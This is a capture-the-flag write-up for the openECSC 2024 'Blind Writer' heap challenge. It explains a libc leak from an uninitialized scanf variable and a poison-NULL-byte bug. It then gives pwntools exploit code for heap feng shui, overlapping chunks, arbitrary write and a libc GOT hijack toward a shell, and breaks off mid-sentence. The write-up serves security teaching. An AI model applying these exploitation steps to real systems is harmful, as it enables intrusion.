









# openECSC 2024 - Round 2

## [pwn] Blind Writer (2 solves)

Even though I'm blind, I have a dying passion for writing books!
I have decided to create a book writing program to help me with my passion.
Try it out and let me know what you think!

`nc blindwriter.challs.open.ecsc2024.it 38003`

Author: Nalin Dhingra <@Lotus>

> **Disclaimer:**  
> This writeup will take for granted knowledge of malloc internals, if you are
> not familiar with them I suggest you to read
> [this wiki page](https://sourceware.org/glibc/wiki/MallocInternals) for a
> better understanding of the following sections.

## Overview

The archive of the challenge provides the following files:

- _blind_writer_, the target executable.
- _glibc/_, a directory containing the linker and libc with debug symbols used
by the remote instance (Glibc version is **2.35-0ubuntu3.1**).
- _docker-compose.yml_, a docker-compose file to run an instance locally.

The executable file is compiled with all protections in place:



Running the binary to have a quick glance at the challenge will show that the
binary running is a sort of book manager



## Code analysis

The application is managed by a while loop present in the function `main` which
prints the menu showed above, takes from user input a choice and executes the
requested functionality.

```c
int main()
{
    uint64_t choice;
    int      idx, idx2;
    setup();

    print_banner();
    print_description();

    while (1) {
        print_menu();
        choice = get_num();

        switch (choice) {
        case 1:
            add_page();
            break;
        case 2:
            fputs("Index: ", stdout);
            idx = get_idx();
            edit_page(idx);
            break;
        case 3:
            fputs("Index: ", stdout);
            idx = get_idx();
            delete_page(idx);
            break;
        case 4:
            fputs("First index: ", stdout);
            idx = get_idx();
            fputs("Second index: ", stdout);
            idx2 = get_idx();
            merge_pages(idx, idx2);
            break;
        case 5:
            puts("Exiting...");
            return 0;
        default:
            printf("Invalid choice: %lu\n", choice);
            break;
        }
    }
}
```

The choice is get from the user with the function `get_num` which through
`scanf` reads a 64 bit unsigned integer and returns it.

```C
uint64_t get_num()
{
    uint64_t num;

    scanf("%lu", &num);
    return num;
}
```

### Managing pages

The fundamental structure of the program is very simple, not much to explain
here, so keeping this `struct` in mind lets look at the implementation that
lets us manage "pages" in the application.

```c
#define MAX_TITLE 0x400

struct page {
    uint64_t size;
    char    *data;
    char     title[MAX_TITLE];
};

typedef struct page  page_t;
typedef struct page *page_p;
```

#### Adding a new page

Allocations are managed into a global array `page_p book[MAX_PAGES];`, where
`MAX_PAGES` is equal to 8.  

```c
#define MIN_SIZE  0x410
#define MAX_SIZE  0x900
#define MAX_PAGES 8
#define MAX_TITLE 0x400

void add_page()
{
    int    idx;
    size_t size, len;

    for (idx = 0; idx < MAX_PAGES; idx++) {
        if (book[idx] == NULL) {
            break;
        }
    }
    if (idx == MAX_PAGES) {
        puts("Book is full!");
        return;
    }

    fputs("Size: ", stdout);
    size = get_num();

    if (size < MIN_SIZE || size > MAX_SIZE) {
        puts("Invalid size!");
        return;
    }

    page_p page = malloc(sizeof(*page));
    if (page == NULL) {
        puts("malloc() failed!");
        return;
    }
    page->data = malloc(size);
    if (page->data == NULL) {
        puts("malloc() failed!");
        free(page);
        return;
    }

    fputs("Title: ", stdout);
    len = read(0, page->title, sizeof(page->title));
    if (page->title[len - 1] == '\n') {
        page->title[len - 1] = '\0';
    }

    fputs("Data: ", stdout);
    page->size = size;
    len        = read(0, page->data, size);
    if (page->data[len - 1] == '\n') {
        page->data[len - 1] = '\0';
    }

    book[idx] = page;
}
```

Adding new page is done by the function `add_page` which to summarize does the
following:

1. Finds a free index into the array `book`.
1. Gets a size from user input with the function `get_num` and validates that
the size is between 0x410 and 0x900 bytes.
1. Allocates a `struct page` and subsequently allocates a memory region of the
size obtain on the previous step. This memory region is saved in the pointer
`data` in the `struct page`.
1. It then reads from input a maximum of 0x400 bytes to be the title for the
newly created page, which will populate the member `title` of the structure.
1. Finally it reads `size` bytes to our `data` member and saves the created
page at the index found at step 1.

This functionality doesn't present any notable bug, apart from the fact that
string may be not `NULL` terminated if the last character written is not a
newline.  
One important thing to note for exploitation purposes, is that every controlled
allocation produces a side effect, meaning it will perform another allocation
(for the `struct page`) before allocating the requested chunk. This, as we will
see, will increase the difficulty in the **Heap Feng Shui** phase of the
exploit.  
Another important note to make is that the allocations, both of user controlled
data and of the `struct page`, will create chunks with size greater than 0x410,
meaning that if freed they will either fall in the unsorted or large bins.

#### Editing a page

The editing functionality is very simple, it will ask for an index, which
is validated by the function `get_idx`, making sure there are no OOB accesses
to the array `book`.

```c
int get_idx()
{
    int idx;

    idx = (int)get_num();
    if (idx < 0 || idx >= MAX_PAGES) {
        puts("Invalid index!");
        return -1;
    }
    return idx;
}
```

Then it will retrieve the page saved at the requested index if there is one,
and perform a new read with the correct size previously allocated.

```c
void edit_page(int idx)
{
    page_p page = NULL;
    size_t len;

    if ((page = book[idx]) == NULL) {
        puts("No page at this index!");
        return;
    }

    fputs("Data: ", stdout);
    len = read(0, page->data, page->size);
    if (page->data[len - 1] == '\n') {
        page->data[len - 1] = '\0';
    }
}
```

#### Deleting a page

```c
void delete_page(int idx)
{
    page_p page = NULL;

    if ((page = book[idx]) == NULL) {
        puts("No page at this index!");
        return;
    }

    free(page->data);
    free(page);

    book[idx] = NULL;
}
```

Deleting a page is also very simple, it will once again ask for an index, and
if the requested page exist it will free both the allocations related to such
page and delete the pointer from the array `book` preventing any
**Use-After-Free** vulnerability.

#### Merging a page

```c
void merge_pages(int idx1, int idx2)
{
    size_t size1, size2;

    if (idx1 == idx2) {
        puts("Invalid index!");
        return;
    }

    page_p page1 = book[idx1];
    page_p page2 = book[idx2];

    if (page1 == NULL || page2 == NULL) {
        puts("No page at this index!");
        return;
    }

    size1 = strlen(page1->data);
    size2 = strlen(page2->data);

    if (page1->size < size1 + size2) {
        puts("Page is too small!");
        return;
    }

    strcat(page1->data, page2->data);
    delete_page(idx2);
}
```

Merging pages is the final functionality offered by the application. It
requests 2 distinct indexes from the user and makes sure they are valid.
It will then proceed to calculate the size of each page using `strlen`, and
make sure that their sum is less or equal to the allocated size of the first
page. If this condition is met then it will concatenate the content of the two
pages with `strcat` and delete the second page.

## Vulnerability analysis

Now that we have a good understanding of the application we can proceed to
review the vulnerabilities that lie in the code, and figure out how to exploit
them.  

### Memory leak

Recalling the function `get_num` we will find the first vulnerability, which
will provide a useful memory leak.

```C
uint64_t get_num()
{
    uint64_t num;

    scanf("%lu", &num);
    return num;
}
```

If we look carefully at the function we will notice an important detail,
there is **no initialization** for the variable `num` which is then directly
feed to `scanf` to write to.  
Since the expected input is a integer number we can use a simple trick to avoid
overwriting the memory allocated on the stack for the uninitialized variable.
Providing as input either a "+" or "-" sign with nothing else following we can
successfully execute the `scanf` function and obtain a memory leak given by the
`printf` call in the `default` case of the `switch`.



If we would check with **gdb** we could see that indeed the address printed is
from `libc`, which is very useful since we don't have the ability to read from
heap memory.

### Poison NULL byte

The last vulnerability present in the program is a poison NULL byte. If we
recall the function `merge_pages`, the function `strcat` is used to merge the
two target pages, the vulnerability here lies in the check performed to
validate the size of the chunk where the final concatenation is stored.

```c
    if (page1->size < size1 + size2) {
```

This checks that the allocated size is at least `strlen(src) + strlen(dest)`,
but the function `strcat` concatenates the two strings and **appends** to the
result of this operation a `NULL` byte, meaning that the required size for the
destination buffer has to be at least `strlen(src) + strlen(dest) + 1`, as
stated in the manual page. This vulnerability therefore allows us to overwrite
the least significant byte of the next chunk's `mchunk_size` member with a `NULL`
byte. This has important consequences since it will clear any flag saved in
this member, in particular we will target the `PREV_INUSE` flag.

## Exploitation

The exploitation plan will be to use the poison `NULL` byte to clear the flag
`PREV_INUSE` of a victim chunk and trigger backwards consolidation of the
victim with a fake chunk we constructed to obtain an overlapping chunk. The
overlapping chunk will then be used to overwrite the pointer `data` within a
`struct page` to obtain arbitrary write. The arbitrary write primitive will
then be used to overwrite a entry in the **GOT** section of **libc**, with a
particular gadget, and perform a **ROP chain** to get arbitrary code execution,
and with it a **shell**.  
The plan sounds nice and easy, but to be able to execute the poison `NULL` byte
attack we will need to go through a bit of pain with **heap feng shui**.  

> Note:  
If you want to learn beforehand how the attack works, to better understand the
reasons behind some feng shui decisions, you can check the example from [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/poison_null_byte.c).

### Heap Feng Shui

What I personally like to do when figuring out how to prepare the heap for an
exploit is to visualize the target layout I want to achieve. In this case we
need to obtain a layout as the following.



As we can see from the image above we need about 7 controlled allocations to
achieve the desired layout, the chunks shown are 8, but we can save one since
the `struct page` is allocated as a side effect. Therefore we have enough
entries in the array `book` to store them.  
This is good, but now we have to face the problem of the side effect
represented by the allocations of `struct page` for every controlled allocation.

What we want to avoid is that the allocation for the `struct page` and the data
chunk are contiguous in memory, because then freeing the page will result in the
consolidation of the two chunks, which makes executing the exploit a lot harder.
Luckily the allocated size of the `struct page` is 0x420 bytes which is the same
as the minimum size for data chunks. This allows us to prepare chunks that will
be reclaimed exclusively by page objects, lets see how...

#### IO functions

For the exploit I will use python with [`pwntools`](https://docs.pwntools.com/en/latest/index.html)
and to debug `gdb` with [this fork of `gef`](https://github.com/bata24/gef).  
So, before beginning to see how to perform the need **feng shui**, I will drop
here the functions I have used to interact with the process with `pwntools`.

```python
def add(size, data = b"*"*0x10, title = b"T"*0x10):
    io.sendlineafter(b"> ", b"1")
    io.sendlineafter(b"Size: ", str(size).encode())
    io.sendafter(b"Title: ", title)
    io.sendafter(b"Data: ", data)

def edit(idx, data):
    io.sendlineafter(b"> ", b"2")
    io.sendlineafter(b"Index: ", str(idx).encode())
    io.sendafter(b"Data: ", data)

def delete(idx):
    io.sendlineafter(b"> ", b"3")
    io.sendlineafter(b"Index: ", str(idx).encode())

def merge(idx1, idx2):
    io.sendlineafter(b"> ", b"4")
    io.sendlineafter(b"index: ", str(idx1).encode())
    io.sendlineafter(b"index: ", str(idx2).encode())
```

With these functions we can continue our **heap feng shui** journey.

#### Separate data from metadata

Remember we said we needed 7 controlled allocation. Considering that the victim
metadata (aka `struct page`) chunk can be the one of the _"vuln chunk"_, and
that the barriers can be contiguous with their metadata since we will not free
them (they are used to avoid consolidation), we need to have a total of 4
"non-contiguous" allocations.
For exploitation reason we will also keep the barrier chunks separate from their
metadata giving us a total of 6 "non-contiguous" allocations.

> Note:  
I think it should be possible to develop an exploit that only relies on 4,
therefore keeping the barriers chunks contiguous with their metadata, but my
initial exploit was made use of the separate version, and I am too lazy to try
and optimize it now.

I will now show the simple idea used to separate metadata and data chunks, from
there we will start to reason on how to achieve the final target layout.

Consider the following operations:

```python
# Add chunks to prepare metadata space (idx: 0, 1, 2)
for i in range(3):
    add(0x418, f"CHUNK{i}".encode(), f"META_CHUNK{i}".encode())

delete(0)
add(0x428, b"FAKE", b"META_FAKE")           # idx: 0
```

This will give us an allocation separated from its metadata



What happened here is that we created several chunks of the same size of the
metadata, when freeing one we obtain a consolidated chunk of size 0x840 that
will end up in the unsorted bins. If we then allocate a new chunk, the metadata
will be reclaimed from said unsorted chunk leaving 0x420 bytes that will be
inserted into the large bins. Therefore if we allocate a chunk of size greater
than 0x420 it will allocate it from the top chunk still leaving untouched the
large bins.  
We now managed to separate data chunks from metadata, there are more problems
that will arise soon, but for now we can see a way to move forward.

#### Additional feng shui constraints

Before going forward, there is one extra details very much related to what we
just said that needs to be taken care of.  
What we need to consider is that, for the attack to work, we will need to keep
freed at the same time the _fake chunk_, _chunk "A"_ and _chunk "B"_.
For this reason we need to make sure that also their metadata are non contiguous
in memory, otherwise they will consolidate with each other creating huge chunks
that will most likely mess up our exploitation process (or at the very least
make it much harder).  

#### Final target layout

So lets now visualise our final target layout will be (comprised of metadata
chunks), and how we will craft it.


We can see that the space needed for the "Metadata Memory Area" is of 6 chunks.
So lets prepare that space:
We first allocate 3 chunks of size 0x418 that will take up the needed space for
metadata chunks.  
Then we will free the first chunk at index 0 and allocate the _extra
barrier chunk_ with a size of 0x428 so that it will be taken from the top chunk.
Then we will simply allocate the _fake chunk_ that will fill the remaining
large bin and be allocated from the top chunk again.
Following these same concepts we can easily get the desired layout.

```python
##
## HEAP FENG SHUI
##
# Add chunks to prepare metadata space (idx: 0, 1, 2)
for i in range(3):
    add(0x418, f"CHUNK{i}".encode(), f"META_CHUNK{i}".encode())

# Make space for metadata of "extra barrier" and "fake" chunks
delete(0)
add(0x428, b"EXTRA_BARRIER", b"META_EXTRA_BARRIER") # idx: 0
add(0x448, b"FAKE", b"META_FAKE")                   # idx: 3

# Allocate the Vuln chunk that will trigger the NULL poison its metadata is
# placed in memory after the fake chunk. That will be the metadata target of the
# overlapping.
add(0x428, b"V"*0x228, b"META_VULN")                # idx: 4

# Create space for metadata chunks
delete(1)
# Allocate victim (victim must have size >= 0x500 to avoid the tcache)
add(0x4f8, b"VICTIM", b"META_VICTIM")               # idx: 1

# Allocate chunk A
add(0x438, b"A"*0x10, b"META_CHUNK_A")              # idx: 5
# Creating more space
delete(2)
# Allocate barrier
add(0x428, b"BARRIER_1", b"META_BARRIER_1")         # idx: 2
# Allocate chunk B and barrier
add(0x458, b"B"*0x10, b"META_CHUNK_B")              # idx: 6
add(0x428, b"BARRIER_2", b"META_BARRIER_2")         # idx: 7
```

The code above will complete the **feng shui** needed and obtain the final
target layout, but before moving to the exploitation phase let's make some
consideration on the code presented.
The first thing to notice is the sizes chosen for the various chunks, to clarify
this aspect remember that the large bins list is divided by size ranges. In
particular the metadata chunks will fall in the range \[0x400-0x440\[ (it is not
inclusive of 0x440).
For this reason we chose the size of the _fake chunk_ to be 0x448, so that it
will be placed in a different range together with _chunk "A"_ and _chunk "B"_.
The next important thing to notice is the size of the victim chunk, this needs
to be greater or equal to 0x500 to avoid the victim chunk being freed to the
tcache bins after we trigger the poison NULL byte. Another thing you should take
into account is to make sure that after we overwrite the LSB of the victim chunk
size the "next" chunk has a size with the flag `PREV_INUSE` set, otherwise, an
abort will be triggered by the [check performed on the next chunk](https://elixir.bootlin.com/glibc/glibc-2.35.9000/source/malloc/malloc.c#L4590).
To avoid this check I set the size of the victim chunk to 0x500 so that it will
not shrink when overwriting its size.

### NULL poisoning

Finally its time to corrupt some memory...
I will once again link the [how2heap](https://github.com/shellphish/how2heap/blob/master/glibc_2.35/poison_null_byte.c)
repository for the attack so you can check it out on your own. Anyways I will
briefly explain the idea behind the attack.

#### Preparing the fake chunk

Since we don't have a leak for heap pointers we cannot easily craft a fake chunk
in memory, therefore we should make use of pointers that are already written by
the malloc subsystem.
If you are familiar with the `struct malloc_chunk`, then you will know that
large bins use an additional set of pointers `fd_nextsize` and `bk_nextsize` to
point to free chunks in the same size range with respect to their relative size.
This is the reason we chose the following sizes:

- Fake chunk: 0x450
- Chunk A: 0x440
- Chunk B: 0x460

If we free all three chunks and trigger a consolidation they will end up in the
large bins list for the range \[0x440-0x480\[ in the following order:
`"Chunk B" <--> "Fake chunk" <--> "Chunk A"`  
In this situation if we allocate a chunk of the same size of _fake chunk_ it
will keep the heap pointers to chunks _"A"_ and _"B"_, which we can use to
create a fake chunk. All we need to do is to write a size that will overlap the
_vuln chunk_ with its metadata and reach the _victim chunk_.

```python
def consolidate():
    payload = b"0" * 0x1000 + b"9"
    io.sendlineafter(b"> ", payload)

# ... [Redacted] ...

#
# NULL poisoning
#

# Free A, B and FAKE
delete(5)
delete(6)
delete(3)

# Consolidation
consolidate()

# Reclaim FAKE CHUNK which now have valid pointers to bypass unlink
payload = p64(0) + p64(0xc91)               # Fake size 0xc80 (0x450 - 0x10 + 0x420 * 2)
add(0x448, payload, b"META_FAKE")           # idx: 3
```

To trigger the consolidation I used a simple trick with `scanf`, which if we
provide a large input (greater than 0x800, if I remember correctly) it will
allocate space for the buffer onto the heap.  
This is what it looks like in memory



We can see now that our fake chunk has valid `fd` and `bk` pointers, now to
bypass the checks of the unlink procedure we need the `fd` pointer of _chunk
"B"_ and the `bk` pointer of _chunk "A"_ to both point to our fake chunk at
address `0x55555555cf90`.
We can do this easily for _chunk "B"_, by reclaiming it and overwriting the 2
LSB of the lingering `fd` pointer so that it will point to the fake chunk.
When doing this _chunk "A"_ will be the only one remaining in the list,
therefore its `fd` and `bk` pointers will be both pointing to libc.
So what we will do is free the _extra barrier chunk_ and the "A" chunk once
again in this order, in doing this they will be both place in the unsorted bins
list, and the `bk` pointer of _chunk "A"_ will be a heap pointer that we can
partially overwrite after we reclaim it.

> IMPORTANT:  
> Beware that with ALSR enabled we need to perform a 4 bit bruteforce to
> overwrite correctly the lingering pointers.

```python
# Reclaim CHUNK B and manipulate fd pointer to fake chunk
payload = p16(0xcf90)
add(0x458, payload, b"META_CHUNK_B")        # idx: 5

# Reclaim CHUNK A
add(0x438, b"A"*0x10, b"META_CHUNK_A")      # idx: 6
# Free extra barrier so that it will be chunk A bk ptr
delete(0)
# Free CHUNK A to have a heap pointer in mchunk->bk
delete(6)

# Reclaim CHUNK A and manipulate bk pointer to point to fake chunk
payload = p64(0) + p16(0xcf90)
add(0x438, payload, b"META_CHUNK_A")        # idx: 0
```

And this is the result in memory:



As we can see all the pointers now match up correctly, this means that we will
be able to bypass the checks on the unlinking of the fake chunk.  
Now all that is left to do is to trigger the vulnerability.

#### Triggering the vulnerability

First of all lets reallocate the hole left by the _extra barrier chunk_ with a
chunk we will use to merge with the _vuln chunk_.
Then we'll use the merging functionality to trigger the NULL poisoning.
Once this is done we simply need to edit the _vuln chunk_ to set the `prev_size`
field of the _victim chunk_ to the size of the _fake chunk_, and then we free
the _victim chunk_ to obtain the overlapping chunk.

```python
# Reclaim extra barrier chunk with data to be merged
add(0x428, b"V"*0x200, b"META_MERGE")       # idx: 6
# Merge it with vuln to trigger the NULL poisoning
merge(4, 6)

# Set prev_size on victim
payload = b"VULN".ljust(0x420, b"\0")
payload += p64(0xc90)                       # Fake size
edit(4, payload)

# Free victim to obtain a overlapping chunk
delete(1)
```

And ***TADA!***



#### Arbitrary write

From here the exploit gets pretty straightforward, we just allocate a large
chunk that will be overlapping the metadata of the _vuln chunk_ and we will use
it to modify the `data` pointer of the `struct page`. Then we can simply use the
edit functionality with the _vuln chunk_ to write to any address we want.

```python
# Reclaim extra chunks that are in unsorted bins list
add(0x418, b"FILLING", b"META_FILLING")         # idx: 1

# Overwrite page->data pointer to get arbitrary write
payload = b"+" * 0x438
payload += p64(0x421)                           # size for page chunk
payload += p64(0xdead)                          # page->size
payload += p64(ARBITRARY_ADDRESS)               # page->data
add(0x500, payload, b"META_OVERWRITE")          # idx: 6
# Edit vuln chunk to write to ARBITRARY_ADDRESS
edit(4, b"0xdeadbeef")
```

### Arbitrary code execution

Good, now we have a very powerful primitive, the question is how to use it to
achieve arbitrary code execution and possibly an interactive shell.
Well we don't have an arbitrary read so it is not possible to leak stack
(actually we could corrupt  _IO_2_1_stdout to get a leak, but I'm lazy), but we
have a leak of libc, this should be an easy overwrite of a `GOT` entry of libc
with `one_gadget` and boom we have a shell!!  
Well... unfortunately if you tried that you will see that `one_gadget` will not
work.  
But I got better news, there is a fantastic technique that I discovered
just recently that with arbitrary write on `glibc` lets you obtain **arbitrary
code execution**!  
I saw the [technique](https://github.com/n132/Libc-GOT-Hijacking) from [n132](https://github.com/n132)
which I suggest you checking out as I used a very simple variation, and he
explains, very interesting and more complicated scenarios.
To put it easy there is a very interesting piece of code at the beginning of the
`.plt` section of `glibc` which will `push` on the stack a 64bit value from the
address of the `.got.plt` section `+8` and will then `jmp` to the address
written at `.got.plt+16`.

```asm
# Special gadget at beginning of .plt section

push   QWORD PTR [rip+0x1f1002]         # 0x7ffff7e19008
bnd jmp QWORD PTR [rip+0x1f1003]        # 0x7ffff7e19010
```

This is super powerful, we basically can push any value on the stack and then
execute an arbitrary piece of code.

My solution was to push an address where I can write after the `GOT` of `glibc`
and then jump to a stack pivot gadget that will move the stack to said address.
The plan is therefore to write the needed values in the entries at `.got.plt+8`
